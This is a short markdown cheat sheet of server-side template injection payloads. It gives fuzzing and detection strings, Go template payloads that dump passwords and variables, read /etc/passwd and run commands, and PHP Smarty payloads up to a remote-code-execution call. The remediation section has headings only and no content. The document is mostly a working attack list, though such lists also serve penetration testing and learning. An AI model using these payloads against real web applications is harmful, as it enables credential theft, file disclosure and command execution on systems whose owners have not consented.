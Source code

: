 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*'7'}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads:

## Go SSTI

### 1) {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

### 3) {{ .ExecuteCmd "whoami" }} Executes commands

### 4) {{ . }} (Dumps variables)

## PHP - Smarty

### PoC Enumeration Payload

    {'Hello'|upper}
  
### RCE Payload

    {system("id")}
